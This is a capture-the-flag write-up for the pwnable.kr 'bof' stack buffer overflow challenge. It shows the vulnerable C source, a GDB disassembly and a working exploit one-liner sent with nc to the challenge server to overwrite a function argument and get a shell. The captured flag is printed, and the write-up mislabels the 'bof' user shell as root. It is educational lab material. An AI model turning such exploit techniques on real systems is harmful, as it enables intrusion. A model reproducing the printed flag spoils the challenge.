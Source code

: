 # bof
slopey112 - 2/24/19

The description of this challenge tells us that it is a buffer overflow vulnerability. Downloading the source code, we can see it is indeed a buffer overflow.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

It seems that an argument is passed to `func`, which is `0xdeadbeef`. Then it is compared to a key, `0xcafebabe`, and if the keys match, we will gain access to the shell.

We notice straight of the bat that the argument passed to `func` will never change...Unless, of course, we overflow it.

Let's open up GDB and take a look at this. The only function of interest here is `func`, so we'll disassemble that.

```
0x0000062c <+0>:	push   ebp
0x0000062d <+1>:	mov    ebp,esp
0x0000062f <+3>:	sub    esp,0x48
0x00000632 <+6>:	mov    eax,gs:0x14
0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
0x0000063b <+15>:	xor    eax,eax
0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
0x00000644 <+24>:	call   0x645 <func+25>
0x00000649 <+29>:	lea    eax,[ebp-0x2c]
0x0000064c <+32>:	mov    DWORD PTR [esp],eax
0x0000064f <+35>:	call   0x650 <func+36>
0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
0x0000065b <+47>:	jne    0x66b <func+63>
0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
0x00000664 <+56>:	call   0x665 <func+57>
0x00000669 <+61>:	jmp    0x677 <func+75>
0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
0x00000672 <+70>:	call   0x673 <func+71>
0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
0x00000681 <+85>:	je     0x688 <func+92>
0x00000683 <+87>:	call   0x684 <func+88>
0x00000688 <+92>:	leave  
0x00000689 <+93>:	ret   
```

The first interesting thing we see here is on `<+29>`, where `eax` is given `0x2c` of space. This is none other than the buffer. Wait, but wasn't buffer allocated only 32 bytes? Why is it now 44? Simply put, compilers are weird. To make things more efficient, they allocate memory differently.

However, we can't just overflow the buffer. Let's go down to `<+40>`.

```
0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
```

Ok, so here's our key comparison. Our goal is make `[ebp+0x8]` equal to the key. A key observation here is that the key is compared to an address 8 bytes above the `ebp`. Why is that? This is because those 8 bytes are the saved stack frame from `main`. So that means if we just overflow 44 bytes, it isn't enough; we must overflow 44 bytes + those 8 bytes, making 52 bytes in total.

Let's call python on the server with these  things in mind. Also keep in mind that when the key matches, we don't immediately get the flag; rather, we are given the shell. That had a second minor complication, but it can be easily resolved.

```shell
(python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000
```

Note the use of `cat` at the end. Since we're getting a shell, we pass `cat` to `stdin` so the shell does not get a null input. After that, we gain the root shell.

```
whoami
bof
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```
